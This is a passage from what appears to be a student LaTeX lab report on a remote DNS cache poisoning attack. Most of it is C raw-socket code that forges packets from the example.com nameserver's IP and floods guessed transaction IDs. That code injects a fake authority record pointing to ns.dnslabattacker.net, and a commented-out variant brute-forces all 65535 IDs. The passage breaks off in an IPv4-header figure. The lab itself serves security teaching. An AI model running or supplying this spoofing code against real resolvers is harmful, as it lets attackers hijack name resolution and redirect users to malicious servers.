    strcpy(ans,request_url);
    int anslength= strlen(ans)+1;

    struct ansEnd * ansend=(struct ansEnd *)(ans+anslength);
    ansend->type=htons(1);
    ansend->class=htons(1);
    ansend->ttl_l=htons(0x00); //TTL is 208 seconds
    ansend->ttl_h=htons(0xD0);
    ansend->datalen=htons(4);

    char *ansaddr=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length+sizeof(struct ansEnd)+anslength);

    strcpy(ansaddr,"\1\2\3\4"); //Provides the IP address of query resource 
    int addrlen = strlen(ansaddr);

//add the authoritative section here
    char *ns =(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length+sizeof(struct ansEnd)+anslength+addrlen);
    strcpy(ns,"\7example\3com"); // Nameserver for resolving domain
    int nslength= strlen(ns)+1;

    struct nsEnd * nsend=(struct nsEnd *)(ns+nslength);
    nsend->type=htons(2);
    nsend->class=htons(1);
    nsend->ttl_l=htons(0x00);
    nsend->ttl_h=htons(0xD0);
    nsend->datalen=htons(23);

    char *nsname=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length+sizeof(struct ansEnd)+anslength+addrlen+sizeof(struct nsEnd)+nslength);

    strcpy(nsname,"\2ns\16dnslabattacker\3net"); //Provides resolution to the domain
    int nsnamelen = strlen(nsname)+1;

//add the additional report here
    char *ar=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length+sizeof(struct ansEnd)+anslength+addrlen+sizeof(struct nsEnd)+nslength+nsnamelen);
    strcpy(ar,"\2ns\16dnslabattacker\3net"); //IP Address (A record) of nameserver
    int arlength = strlen(ar)+1;
    struct ansEnd* arend = (struct ansEnd*)(ar + arlength);
    arend->type = htons(1);
    arend->class=htons(1);
    arend->ttl_l=htons(0x00);
    arend->ttl_h=htons(0xD0);
    arend->datalen=htons(4);
    char *araddr=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length+sizeof(struct ansEnd)+anslength+addrlen+sizeof(struct nsEnd)+nslength+nsnamelen+arlength+sizeof(struct ansEnd));

    strcpy(araddr,"\1\2\3\4"); //IP Address for resource
    int araddrlen = strlen(araddr);


/////////////////////////////////////////////////////////////////////
//
// DNS format, relate to the lab, you need to change them, end
//
//////////////////////////////////////////////////////////////////////

    /*************************************************************************************
    Construction of the packet is done.
    now focus on how to do the settings and send the packet we have composed out
    ***************************************************************************************/
    // Source and destination addresses: IP and port

    struct sockaddr_in sin, din;
    int one = 1;
    const int *val = &one;
//while(1){

    //dns->response_id=rand(); // transaction ID for the query packet, use random #
    // Create a raw socket with UDP protocol

    sd = socket(PF_INET, SOCK_RAW, IPPROTO_UDP);


    if(sd<0 ) // if socket fails to be created
        printf("socket error\n");

    // The source is redundant, may be used later if needed
    // The address family

    sin.sin_family = AF_INET;
    din.sin_family = AF_INET;

    // Port numbers

    sin.sin_port = htons(33333);
    din.sin_port = htons(53);

    // IP addresses

    sin.sin_addr.s_addr = inet_addr(src_addr); // this is the second argument we input into the program
    din.sin_addr.s_addr = inet_addr("199.43.135.53"); // this is the first argument we input into the program

    // Fabricate the IP header or we can use the
    // standard header structures but assign our own values.

    ip->iph_ihl = 5;
    ip->iph_ver = 4;
    ip->iph_tos = 0; // Low delay

    unsigned short int packetLength =(sizeof(struct ipheader) + sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)+anslength+sizeof( struct ansEnd)+nslength+sizeof(struct nsEnd)+addrlen+nsnamelen+arlength+sizeof(struct ansEnd)+araddrlen); // length + dataEnd_size == UDP_payload_size

    ip->iph_len=htons(packetLength);
    ip->iph_ident = htons(rand()); // we give a random number for the identification

    ip->iph_ttl = 110; // hops
    ip->iph_protocol = 17; // UDP

    // Source IP address, use the actual IP address of example.com nameserver

    ip->iph_sourceip = inet_addr("199.43.135.53");

    // The destination IP address

    ip->iph_destip = inet_addr(src_addr);

    // Fabricate the UDP header. Source port number is redundant

    udp->udph_srcport = htons(53);  // Random source port number, lower numbers may be reserved

    // Destination port number

    udp->udph_destport = htons(33333);

    udp->udph_len = htons(sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)+anslength+sizeof( struct ansEnd)+nslength+sizeof(struct nsEnd)+addrlen+nsnamelen+arlength+sizeof(struct ansEnd)+araddrlen); // udp_header_size + udp_payload_size

    // Calculate the checksum for integrity//

    ip->iph_chksum = csum((unsigned short *)buffer, sizeof(struct ipheader) + sizeof(struct udpheader));

    udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader));


    // Prevent kernel from filling up DNS packet with its information
    if(setsockopt(sd, IPPROTO_IP, IP_HDRINCL, val, sizeof(one))<0 )
    {
        printf("error\n");
        exit(-1);
    }

    int count = 0;
    int trans_id = 3000;
    while(count < 100)
    {


// This is to generate queries for random sub-domains xxxxx.example.com
        dns->query_id=trans_id+count;
        udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader));
// Recalculate the checksum for the UDP packet

        // Send the packet out.
        if(sendto(sd, buffer, packetLength, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)
            printf("packet send error %d which means %s\n",errno,strerror(errno));
        count++;
    }
    close(sd);

    return 0;
}

int main(int argc, char *argv[])
{

// This is to check the argc number
    if(argc != 3)
    {
        printf("- Invalid parameters!!!\nPlease enter 2 ip addresses\nFrom first to last:src_IP  dest_IP  \n");
        exit(-1);
    }


// socket descriptor
    int sd;

// buffer to hold the packet
    char buffer[PCKT_LEN];

// set the buffer to 0 for all bytes
    memset(buffer, 0, PCKT_LEN);

    // Our own headers' structures

    struct ipheader *ip = (struct ipheader *) buffer;

    struct udpheader *udp = (struct udpheader *) (buffer + sizeof(struct ipheader));

    struct dnsheader *dns=(struct dnsheader*) (buffer +sizeof(struct ipheader)+sizeof(struct udpheader));

// data is the pointer points to the first byte of the dns payload
    char *data=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader));


////////////////////////////////////////////////////////////////////////
// dns fields(UDP payload field)
// relate to the lab, you can change them. begin:
////////////////////////////////////////////////////////////////////////

//The flag you need to set

    dns->flags=htons(FLAG_Q);
//only 1 query, so the count should be one.
    dns->QDCOUNT=htons(1);


//query string
    strcpy(data,"\5abcde\7example\3com");
    int length= strlen(data)+1;


// This is more convenient to write the 4bytes in a more organised way.

    struct dataEnd * end=(struct dataEnd *)(data+length);
    end->type=htons(1);
    end->class=htons(1);


/////////////////////////////////////////////////////////////////////
//
// DNS format, relate to the lab, you need to change them, end
//
//////////////////////////////////////////////////////////////////////


    /*************************************************************************************
    Construction of the packet is done.
    now focus on how to do the settings and send the packet we have composed out
    ***************************************************************************************/
    // Source and destination addresses: IP and port

    struct sockaddr_in sin, din;
    int one = 1;
    const int *val = &one;
    dns->query_id=rand(); // transaction ID for the query packet, use random

    // Create a raw socket with UDP protocol

    sd = socket(PF_INET, SOCK_RAW, IPPROTO_UDP);


    if(sd<0 ) // if socket fails to be created
        printf("socket error\n");

    // The source is redundant, may be used later if needed

    // The address family

    sin.sin_family = AF_INET;
    din.sin_family = AF_INET;

    // Port numbers

    sin.sin_port = htons(33333);
    din.sin_port = htons(53);

    // IP addresses

    sin.sin_addr.s_addr = inet_addr(argv[2]); // this is the second argument we input into the program
    din.sin_addr.s_addr = inet_addr(argv[1]); // this is the first argument we input into the program

    // Fabricate the IP header or we can use the
    // standard header structures but assign our own values.

    ip->iph_ihl = 5;
    ip->iph_ver = 4;
    ip->iph_tos = 0; // Low delay

    unsigned short int packetLength =(sizeof(struct ipheader) + sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)); // length + dataEnd_size == UDP_payload_size

    ip->iph_len=htons(packetLength);
    ip->iph_ident = htons(rand()); // we give a random number for the identification
    ip->iph_ttl = 110; // hops
    ip->iph_protocol = 17; // UDP

    // Source IP address, spoofed address is used here!!!

    ip->iph_sourceip = inet_addr(argv[1]);

    // The destination IP address

    ip->iph_destip = inet_addr(argv[2]);


    // Fabricate the UDP header. Source port number, redundant

    udp->udph_srcport = htons(33333);  // Random source port number, lower numbers may be reserved

    // Destination port number

    udp->udph_destport = htons(53);
    udp->udph_len = htons(sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)); // udp_header_size + udp_payload_size

    // Calculate the checksum for integrity//

    ip->iph_chksum = csum((unsigned short *)buffer, sizeof(struct ipheader) + sizeof(struct udpheader));


    udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader));
    /*******************************************************************************
    Tips
    The checksum is quite important to pass the checking integrity. You need to study the algorithm and what part should be taken into the calculation.
    !!!!!If you change anything related to the calculation of the checksum, you need to re-calculate it or the packet will be dropped.!!!!!
    Here things became easier since I wrote the checksum function for you. You don't need to spend your time writing the right checksum function.
    Just for knowledge purpose, remember the second parameter
    for UDP checksum:
    ipheader_size + udpheader_size + udpData_size
    for IP checksum:
    ipheader_size + udpheader_size
    *********************************************************************************/

    // Prevent kernel from filling up DNS packet with its information
    if(setsockopt(sd, IPPROTO_IP, IP_HDRINCL, val, sizeof(one))<0 )
    {
        printf("error\n");
        exit(-1);
    }

    while(1)
    {
// This is to generate queries for random sub-domains xxxxx.example.com
        int charnumber;
        charnumber=1+rand()%5;
        *(data+charnumber)+=1;

        udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader)); // recalculate the checksum for the UDP packet

        // send the packet out.
        if(sendto(sd, buffer, packetLength, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)
            printf("packet send error %d which means %s\n",errno,strerror(errno));
        sleep(0.9);
        response(data, argv[2], argv[1]);
    }
    close(sd);

    return 0;
}
		\end{minted}
		\iffalse
		%Alternative code
		// ----udp.c------
		// This sample program must be run by root lol! 
		// 
		// The program is to spoofing tons of different queries to the victim.
		// Use wireshark to study the packets. However, it is not enough for 
		// the lab, please finish the response packet and complete the task.
		//
		// Compile command:
		// gcc -lpcap udp.c -o udp
		//
		// 
		
		    #include <unistd.h>
		
		    #include <stdio.h>
		
		    #include <sys/socket.h>
		
		    #include <netinet/ip.h>
		
		    #include <netinet/udp.h>
		    #include <fcntl.h>
		    #include <string.h>
		    #include <errno.h>
		    #include <stdlib.h>
		#include <libnet.h>
		    // The packet length
		
		    #define PCKT_LEN 8192
		    #define FLAG_R 0x8400
		    #define FLAG_Q 0x0100
		     
		
		
		    // Can create separate header file (.h) for all headers' structure
		
		    // The IP header's structure
		
		    struct ipheader {
		
		     unsigned char      iph_ihl:4, iph_ver:4;
		
		     unsigned char      iph_tos;
		
		     unsigned short int iph_len;
		
		     unsigned short int iph_ident;
		
		 //    unsigned char      iph_flag;
		
		     unsigned short int iph_offset;
		
		     unsigned char      iph_ttl;
		
		     unsigned char      iph_protocol;
		
		     unsigned short int iph_chksum;
		
		     unsigned int       iph_sourceip;
		
		     unsigned int       iph_destip;
		
		    };
		
		     
		
		    // UDP header's structure
		
		    struct udpheader {
		
		     unsigned short int udph_srcport;
		
		     unsigned short int udph_destport;
		
		     unsigned short int udph_len;
		
		     unsigned short int udph_chksum;
		
		    };
		    struct dnsheader {
			unsigned short int query_id;
			unsigned short int flags;
			unsigned short int QDCOUNT;
			unsigned short int ANCOUNT;
			unsigned short int NSCOUNT;
			unsigned short int ARCOUNT;
		};
		// This structure just for convinience in the DNS packet, because such 4 byte data often appears. 
		    struct dataEnd{
			unsigned short int  type;
			unsigned short int  class;
		};
		    struct datalen{
		    unsigned short int ttl1,ttl2;
		    unsigned short int len;
		};
		    struct root{
		    unsigned short int  type;
		    unsigned short int v1,v2,v3;
		  
		};
		    // total udp header length: 8 bytes (=64 bits)
		
		
		
		
		unsigned int checksum(uint16_t *usBuff, int isize)
		{
			unsigned int cksum=0;
			for(;isize>1;isize-=2){
			cksum+=*usBuff++;
		       }
			if(isize==1){
			 cksum+=*(uint16_t *)usBuff;
		        }
		
		
			return (cksum);
		}
		
		// calculate udp checksum
		uint16_t check_udp_sum(uint8_t *buffer, int len)
		{
		        unsigned long sum=0;
			struct ipheader *tempI=(struct ipheader *)(buffer);
			struct udpheader *tempH=(struct udpheader *)(buffer+sizeof(struct ipheader));
			struct dnsheader *tempD=(struct dnsheader *)(buffer+sizeof(struct ipheader)+sizeof(struct udpheader));
			tempH->udph_chksum=0;
			sum=checksum( (uint16_t *)   &(tempI->iph_sourceip) ,8 );
			sum+=checksum((uint16_t *) tempH,len);
		
			sum+=ntohs(IPPROTO_UDP+len);
			
		
			sum=(sum>>16)+(sum & 0x0000ffff);
			sum+=(sum>>16);
		
			return (uint16_t)(~sum);
			
		}
		    // Function for checksum calculation. From the RFC,
		
		    // the checksum algorithm is:
		
		    //  "The checksum field is the 16 bit one's complement of the one's
		
		    //  complement sum of all 16 bit words in the header.  For purposes of
		
		    //  computing the checksum, the value of the checksum field is zero."
		
		    unsigned short csum(unsigned short *buf, int nwords)
		
		    {       //
		
		            unsigned long sum;
		
		            for(sum=0; nwords>0; nwords--)
		
		                    sum += *buf++;
		
		            sum = (sum >> 16) + (sum &0xffff);
		
		            sum += (sum >> 16);
		
		            return (unsigned short)(~sum);
		
		    }
		
		
		
		
		
		
		
		
		
		
		    
		
		int main(int argc, char *argv[])
		{
		
		
		
		// This is to check the argc number
		    if(argc != 3){
		
		    	printf("- Invalid parameters!!!\nPlease enter 2 ip addresses\nFrom first to last:src_IP  dest_IP  \n");
		   
		    	exit(-1);
		
		    }
		
		
		// socket descriptor
		    int sd;
		
		// buffer to hold the packet
		    char buffer[PCKT_LEN];
		    char send_buf[PCKT_LEN];
		
		// set the buffer to 0 for all bytes
		    memset(buffer, 0, PCKT_LEN);
		    memset(send_buf, 0, PCKT_LEN);
		
		    // Our own headers' structures
		
		    struct ipheader *ip = (struct ipheader *) buffer;
		    struct ipheader *ip2 = (struct ipheader *) send_buf;
		
		    struct udpheader *udp = (struct udpheader *) (buffer + sizeof(struct ipheader));
		    struct udpheader *udp2 = (struct udpheader *) (send_buf + sizeof(struct ipheader));
		
		    struct dnsheader *dns=(struct dnsheader*) (buffer +sizeof(struct ipheader)+sizeof(struct udpheader));
		    struct dnsheader *dns2=(struct dnsheader*) (send_buf +sizeof(struct ipheader)+sizeof(struct udpheader));
		// data is the pointer points to the first byte of the dns payload  
		    char *data=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader));
		    char *data_send=(send_buf +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader));
		
		
		
		
		////////////////////////////////////////////////////////////////////////
		// This is for SEND DNS REQUSET
		// dns fields(UDP payload field)
		// relate to the lab, you can change them. begin:
		////////////////////////////////////////////////////////////////////////
		
		//The flag you need to set
		/* I set it flag is Q */
		    dns2->flags=htons(FLAG_Q);
		//only 1 query, so the count should be one.
		    dns2->QDCOUNT=htons(1);
		
		
		
		
		
		
		//query string
		    strcpy(data_send,"\5aaaaa\7example\3com");
		    int length_send= strlen(data_send)+1;
		
		// this is for convinience to get the struct type write the 4bytes in a more organized way.
		    struct dataEnd * end_send=(struct dataEnd *)(data_send+length_send);
		    end_send->type=htons(1);
		    end_send->class=htons(1);
		   
		    
		
		    
		
		
		
		
		
		/////////////////////////////////////////////////////////////////////
		//
		// DNS format, relate to the lab, you need to change them, end
		//
		//////////////////////////////////////////////////////////////////////
		
		
		
		
		////////////////////////////////////////////////////////////////////////
		// This is for FAKE RESPONSE DNS    
		// dns fields(UDP payload field)
		// relate to the lab, you can change them. begin:
		////////////////////////////////////////////////////////////////////////
		
		//The flag you need to set
		/* I set it flag is R */
			dns->flags=htons(FLAG_R);
		//only 1 query, so the count should be one.
			dns->QDCOUNT=htons(1);
		    dns->ANCOUNT=htons(1);
		    dns->NSCOUNT=htons(1);
		    dns->ARCOUNT=htons(2);
		
		
		
		
		
		
		//query string
		    strcpy(data,"\5aaaaa\7example\3com");
		    int length= strlen(data)+1;
		
		//answer string
		
		// this is for convinience to get the struct type write the 4bytes in a more organized way.
		    struct dataEnd * end=(struct dataEnd *)(data+length);
		    end->type=htons(1);
		    end->class=htons(1);
		    length+=4;
		    strcpy(data+length,"\xc0\x0c");
		    //type + class
		    length+=2;
		    struct dataEnd * end1=(struct dataEnd *)(data+length);
		    end1->type=htons(1);
		    end1->class=htons(1);
		    length+=4;
		    //datalen + ttl
		   
		    struct datalen * len1=(struct datalen *)(data+length);
		    len1->ttl1=htons(1);
		    len1->ttl2=htons(1);
		    len1->len=htons(4);
		    length+=6;
		    //address
		    strcpy(data+length,"\1\1\1\1");
		    length+=4;
		    //Authority querry
		    strcpy(data+length,"\xc0\x12");
		    length+=2;
		    //type + class
		    struct dataEnd * end2=(struct dataEnd *)(data+length);
		    end2->type=htons(2);
		    end2->class=htons(1);
		    length+=4;
		    //datalen + ttl
		    
		    struct datalen * len2=(struct datalen *)(data+length);
		    len2->ttl1=htons(1);
		    len2->ttl2=htons(1);
		    len2->len=htons(23);
		    length+=6;
		    //fake name server
		    // ns.dnslabattacker.net
		    strcpy(data+length,"\2ns\16dnslabattacker\3net");
		    length+=23;
		    //addition 
		    strcpy(data+length,"\2ns\16dnslabattacker\3net");
		    length+=23;
		    struct dataEnd * end3=(struct dataEnd *)(data+length);
		    end3->type=htons(1);
		    end3->class=htons(1);
		    length+=4;
		    struct datalen * len3=(struct datalen *)(data+length);
		    len3->ttl1=htons(1);
		    len3->ttl2=htons(1);
		    len3->len=htons(4);
		    length+=6;
		    strcpy(data+length,"\1\1\1\1");
		    //Root
		    length+=5;
		    struct dataEnd * end4=(struct dataEnd *)(data+length);
		    end4->type=htons(41);
		    end4->class=htons(4096);
		    length+=6;
		    struct dataEnd * end5=(struct dataEnd *)(data+length);
		    end5->type=htons(34816);
		    end5->class=htons(0);
		    
		
		    
		
		
		
		
		
		/////////////////////////////////////////////////////////////////////
		//
		// DNS format, relate to the lab, you need to change them, end
		//
		//////////////////////////////////////////////////////////////////////
		
		
		
		
		
		
		
		
		
		
		/*************************************************************************************
		Construction of the packet is done. 
		now focus on how to do the settings and send the packet we have composed out
		***************************************************************************************/
		    // Source and destination addresses: IP and port
		
		    struct sockaddr_in sin, din;
		
		    int one = 1;
		
		    const int *val = &one;
		
		    srand(time(NULL));
		    dns->query_id=rand(); // transaction ID for the query packet, use random #
		    dns2->query_id=rand();
		
		     
		
		    // Create a raw socket with UDP protocol
		
		    sd = socket(PF_INET, SOCK_RAW, IPPROTO_UDP);
		
		
		if(sd<0 ) // if socket fails to be created 
		printf("socket error\n");
		
		
		    // The source is redundant, may be used later if needed
		
		    // The address family
		
		    sin.sin_family = AF_INET;
		
		    din.sin_family = AF_INET;
		
		    // Port numbers
		
		    sin.sin_port = htons(33333);
		
		    din.sin_port = htons(53);
		
		    // IP addresses
		
		    sin.sin_addr.s_addr = inet_addr(argv[2]); // this is the second argument we input into the program
		
		    din.sin_addr.s_addr = inet_addr(argv[1]); // this is the first argument we input into the program
		
		     
		
		    // Fabricate the IP header or we can use the
		
		    // standard header structures but assign our own values.
		
		    ip->iph_ihl = 5;
		
		
		    ip->iph_ver = 4;
		
		
		    ip->iph_tos = 0; // Low delay
		
		
		    unsigned short int packetLength =(sizeof(struct ipheader) + sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)); // length + dataEnd_size == UDP_payload_size
		
		     ip->iph_len=htons(packetLength);
		
		    ip->iph_ident = htons(rand()); // we give a random number for the identification#
		
		
		    ip->iph_ttl = 110; // hops
		
		    ip->iph_protocol = 17; // UDP
		
		    // Source IP address, can use spoofed address here!!!
		
		    ip->iph_sourceip = inet_addr("199.43.135.53");
		
		    // The destination IP address
		
		    ip->iph_destip = inet_addr(argv[2]);
		
		     
		
		    // Fabricate the UDP header. Source port number, redundant
		
		    udp->udph_srcport = htons(53);//40000+rand()%10000);  // source port number, I make them random... remember the lower number may be reserved
		
		    // Destination port number
		
		    udp->udph_destport = htons(33333);
		
		
		    udp->udph_len = htons(sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)); // udp_header_size + udp_payload_size
		
		
		
		
		
		
		
		
		    // Calculate the checksum for integrity//
		
		    ip->iph_chksum = csum((unsigned short *)buffer, sizeof(struct ipheader) + sizeof(struct udpheader));
		 
		
		    udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader));
		/*******************************************************************************8
		*/
		
		
		
		
		
		    // This is configue for send packet
		
		    // standard header structures but assign our own values.
		
		    ip2->iph_ihl = 5;
		
		
		    ip2->iph_ver = 4;
		
		
		    ip2->iph_tos = 0; // Low delay
		
		
		    unsigned short int packetLength_send =(sizeof(struct ipheader) + sizeof(struct udpheader)+sizeof(struct dnsheader)+length_send+sizeof(struct dataEnd)); // length + dataEnd_size == UDP_payload_size
		
		     ip2->iph_len=htons(packetLength_send);
		
		    ip2->iph_ident = htons(rand()); // we give a random number for the identification#
		
		
		    ip2->iph_ttl = 110; // hops
		
		    ip2->iph_protocol = 17; // UDP
		
		    // Source IP address, can use spoofed address here!!!
		
		    ip2->iph_sourceip = inet_addr(argv[1]);
		
		    // The destination IP address
		
		    ip2->iph_destip = inet_addr(argv[2]);
		
		     
		
		    // Fabricate the UDP header. Source port number, redundant
		
		    udp2->udph_srcport = htons(40000+rand()%10000);  // source port number, I make them random... remember the lower number may be reserved
		
		    // Destination port number
		
		    udp2->udph_destport = htons(53);
		
		
		    udp2->udph_len = htons(sizeof(struct udpheader)+sizeof(struct dnsheader)+length_send+sizeof(struct dataEnd)); // udp_header_size + udp_payload_size
		
		
		
		
		
		
		
		
		    // Calculate the checksum for integrity//
		
		    ip2->iph_chksum = csum((unsigned short *)buffer, sizeof(struct ipheader) + sizeof(struct udpheader));
		 
		
		    udp2->udph_chksum=check_udp_sum(buffer, packetLength_send-sizeof(struct ipheader));
		/*******************************************************************************8
		Tips
		
		the checksum is quite important to pass the checking integrity. You need 
		to study the algorithem and what part should be taken into the calculation.
		
		!!!!!If you change anything related to the calculation of the checksum, you need to re-
		calculate it or the packet will be dropped.!!!!!
		
		Here things became easier since I wrote the checksum function for you. You don't need
		to spend your time writing the right checksum function.
		Just for knowledge purpose,
		remember the seconed parameter
		for UDP checksum:
		ipheader_size + udpheader_size + udpData_size  
		for IP checksum: 
		ipheader_size + udpheader_size
		*********************************************************************************/
		
		
		
		
		
		
		
		
		
		
		
		    // Inform the kernel do not fill up the packet structure. we will build our own...
		 if(setsockopt(sd, IPPROTO_IP, IP_HDRINCL, val, sizeof(one))<0 )
		{
			printf("error\n");	
			exit(-1);
		}
		
		
		
		// int ci=10;
		
		while(1){    	
		
		
		// This is to generate different query in xxxxx.example.com
		    
		
			int charnumber;
			charnumber=1+rand()%5;
		    *(data_send+charnumber)+=1;
			*(data+charnumber)+=1;
		
		    //send request:
		    udp2->udph_chksum=check_udp_sum(send_buf, packetLength_send-sizeof(struct ipheader)); // recalculate the checksum for the UDP packet
		
		        // send the packet out.
		        if(sendto(sd, send_buf, packetLength_send, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)
		        printf("packet send error %d which means %s\n",errno,strerror(errno));
		    //Send fake response
		    unsigned short int co=65535;
		    while(co--){
		        dns->query_id=co; // transaction ID for the query packet, use random #
		        udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader)); // recalculate the checksum for the UDP packet
		
		    // send the packet out.
		        if(sendto(sd, buffer, packetLength, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)
		        printf("packet send error %d which means %s\n",errno,strerror(errno));
		    }
			
		}
		close(sd);
		
		return 0;
		
		}
		\fi
		\restoregeometry
		\subsection{Explanation (For Selected Parts)}
		Lines 33 -- 49 creates the structure required for the IPv4 header, which is illustrated in the figure below\footnote[1]{\url{https://nmap.org/book/tcpip-ref.html}\label{foot1}}.
		\begin{figure}[H]
			\centering
			\tikzset{>=stealth'}
			
\begin{tikzpicture}
			
			\draw (-0.8,0) node[xshift=0cm,yshift=0.3cm,text width=0.7cm, align=left] {Bit\\Offset};
			\draw[line width=0.5mm,fill=black] (-0.02,0.6) -- (-0.02,-10.6);
			\draw (0,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 0};
			\draw[line width=0.5mm] (3.2,0.6) -- (3.2,-10.6);
			\draw (3.2,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 7};
			\draw[line width=0.5mm] (6.4,0.6) -- (6.4,-10.6);
			\draw (6.4,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 15};
			\draw[line width=0.5mm] (9.6,0.6) -- (9.6,-10.6);
			\draw (9.6,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 23};
			\draw[line width=0.5mm] (12.82,0.6) -- (12.82,-10.6);
			\draw (12.8,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 31};
			
			\draw[line width=0.2mm](0.4,0.2) -- (0.4,-10.2);
			\draw[line width=0.2mm](0.8,0.2) -- (0.8,-10.2);
			\draw[line width=0.2mm](1.2,0.2) -- (1.2,-10.2);
			\draw[line width=0.4mm](1.6,0.35) -- (1.6,-10.35);
			\draw[line width=0.2mm](2,0.2) -- (2,-10.2);
			\draw[line width=0.2mm](2.4,0.2) -- (2.4,-10.2);
			\draw[line width=0.2mm](2.8,0.2) -- (2.8,-10.2);
			
			\draw[line width=0.2mm](3.6,0.2) -- (3.6,-10.2);
			\draw[line width=0.2mm](4,0.2) -- (4,-10.2);
			\draw[line width=0.2mm](4.4,0.2) -- (4.4,-10.2);
			\draw[line width=0.4mm](4.8,0.35) -- (4.8,-10.35);
			\draw[line width=0.2mm](5.2,0.2) -- (5.2,-10.2);
			\draw[line width=0.2mm](5.6,0.2) -- (5.6,-10.2);
			\draw[line width=0.2mm](6,0.2) -- (6,-10.2);
			
			\draw[line width=0.2mm](6.8,0.2) -- (6.8,-10.2);
			\draw[line width=0.2mm](7.2,0.2) -- (7.2,-10.2);
			\draw[line width=0.2mm](7.6,0.2) -- (7.6,-10.2);
			\draw[line width=0.4mm](8,0.35) -- (8,-10.35);
			\draw[line width=0.2mm](8.4,0.2) -- (8.4,-10.2);
			\draw[line width=0.2mm](8.8,0.2) -- (8.8,-10.2);
			\draw[line width=0.2mm](9.2,0.2) -- (9.2,-10.2);
			
			\draw[line width=0.2mm](10,0.2) -- (10,-10.2);
			\draw[line width=0.2mm](10.4,0.2) -- (10.4,-10.2);
			\draw[line width=0.2mm](10.8,0.2) -- (10.8,-10.2);
